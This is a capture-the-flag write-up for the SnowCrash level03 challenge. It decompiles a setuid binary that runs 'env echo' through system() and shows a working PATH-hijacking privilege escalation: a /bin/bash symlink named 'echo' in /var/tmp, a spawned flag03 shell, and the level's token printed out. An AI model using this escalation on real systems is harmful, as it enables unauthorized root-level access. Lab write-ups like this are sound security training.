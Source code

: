 # Flag03

In our home we find an executable file:
```
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
So I transfer it to my session and analyze it:
```
$ scp -P 4242 level03@10.13.250.56:/home/user/level03/level03 ~/
$ file level03
level03: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f58ee3b85530179386e826e809e4b547b4b18ac, with debug_info, not stripped

$ ghidra
```
Click on "New Project" and then on "Non-Shared Project":
![ghidra_open](./20240314115916.png)
![ghidra_open](./20240314120120.png)
![ghidra_open](./20240314120153.png)
![ghidra_open](./20240314120242.png)
And have the program "Analyze" it (click on the "Select All" button):
![ghidra_open](./20240314120905.png)

The decompiled main functions resembles to this:
```
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

```
According to an answer on [Stack Overflow](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), the `PATH` variable can be overridden to make it point to a directory with a custom version of `echo`, and since `echo` is executed using `env`, it isn't treated as a built-in.

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to `setresuid()` before the call to `system()` in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to `setresuid()` the shell run by `system()` would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, `system()` call alone is enough.

Ideally I can create a [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command) in one of the folders of the path that are searched before the `/bin` folder in order to execute `bash` before `echo`, since I don't have write permissions in my home folder. However, I have permissions to execute `/bin/bash`.

To find directories where I (as "others") have at least write and exec [permissions](https://www.redhat.com/sysadmin/audit-permissions-find), I type:
```
find / -perm -003 -type d 2>/dev/null # 4 for r, 2 for w, 1 for x
```
As in:
```
level03@SnowCrash:/var/crash$ find / -perm -003 -type d 2>/dev/null
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/tmp
/rofs
/rofs/tmp
/rofs/var/crash
/rofs/var/lib/php5
/rofs/var/tmp
level03@SnowCrash:/var/crash$
```
I need to create a symbolic link as follows:
```
ln -s /bin/bash echo
```
I found out I have writing permissions in `/var/tmp`, so I created the symbolic link to `/bin/bash` that I called `echo` and exported the directory as part of the $PATH variable:
```
level03@SnowCrash:~$ cd /var/tmp/
level03@SnowCrash:/var/tmp$ ln -s /bin/bash echo
level03@SnowCrash:/var/tmp$ export PATH=$PWD:$PATH
level03@SnowCrash:/var/tmp$ ~/level03
echo: Exploit: No such file or directory
```
Since `bash` wanted to execute `Exploit`, I created a script with the same name calling `bash`. And I was `flag03`:
```
level03@SnowCrash:/var/tmp$ cat Exploit
#!/bin/bash

bash
level03@SnowCrash:/var/tmp$ ~/level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:/var/tmp$ whoami
flag03
flag03@SnowCrash:/var/tmp$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
flag03@SnowCrash:/var/tmp$ su level04
Password:
level04@SnowCrash:~$